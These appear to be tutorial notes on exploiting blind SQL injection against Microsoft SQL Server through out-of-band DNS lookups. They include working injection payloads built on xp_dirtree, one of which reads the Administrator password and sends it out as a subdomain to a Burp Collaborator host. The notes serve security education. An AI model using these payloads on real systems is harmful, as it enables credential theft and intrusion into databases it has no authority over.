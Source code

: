 ## Exploiting blind SQL injection using out-of-band (OAST) techniques:
- The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie.
- Typically the most effective is DNS (domain name service) for this type of SQLi.
- The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator.

- The techniques for triggering a DNS query are specific to the type of database being used. For example,
- the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
- Injection: `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'-- `
- This causes the database to perform a lookup for the following domain: `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

## Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application
- Injection: `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
- This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password: S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net

> Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel.


